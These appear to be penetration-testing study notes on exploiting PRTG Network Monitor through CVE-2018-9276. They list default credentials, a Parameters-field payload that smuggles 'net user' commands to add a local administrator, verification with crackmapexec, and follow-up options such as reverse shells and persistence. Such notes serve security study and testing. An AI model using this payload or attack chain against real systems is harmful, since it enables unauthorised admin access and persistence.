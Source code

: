 ### **Overview**
- _Agentless network monitoring_ tool used to track bandwidth, uptime, and stats
- Monitors via: _ICMP_, _SNMP_, _WMI_, _NetFlow_, _REST API_
- Entirely _web-based_ UI, also available on Windows/macOS/Linux
- Free version supports up to _100 sensors_
- Vulnerabilities exist, most notably _CVE-2018-9276_ (Authenticated RCE)

---

### **Discovery & Enumeration**

- **Nmap Detection**:
```bash
PORT     STATE SERVICE     VERSION
8080/tcp open  http        Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
```
- **Version Detection:**
```bash
curl -s http://<target>:8080/index.htm -A "Mozilla/5.0" | grep version
=> PRTG Network Monitor 17.3.33.2830
```

**Login**:
- Common credentials:
    - `prtgadmin:prtgadmin`
    - `prtgadmin:Password123`


---

### **Authenticated Command Injection (CVE-2018-9276)**

- **Affected Versions**: < 18.2.39
- **Injection Point**: `Parameters` field in notification script
- **Vulnerable Script**: `Demo exe notification - outfile.ps1`
- **Execution Context**: Command passed unsanitized to PowerShell

---

### **Steps to Exploit**

1. **Login as Admin**
2. **Navigate**:
    - `Setup > Account Settings > Notifications`
3. **Create New Notification**
    - Name: `pwn`
    - Enable: _Execute Program_
    - Program File: `Demo exe notification - outfile.ps1`
    - Parameters:
```txt
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```
	- save
4. **Trigger Execution**:
	- Click `Test`
	- Notification gets queued and executed (blind RCE)
5. **Verify Execution**:
	- Use `crackmapexec`:
```bash
crackmapexec smb <target> -u prtgadm1 -p Pwn3d_by_PRTG!
```


---

### **Post-Exploitation Options**

- Use tools like:
    - `evil-winrm`
    - `wmiexec.py`
    - `psexec.py`
    - `RDP` or `WinRM`

- Modify notification to deliver _reverse shell payloads_ (instead of adding users)
- Use _scheduling options_ for persistence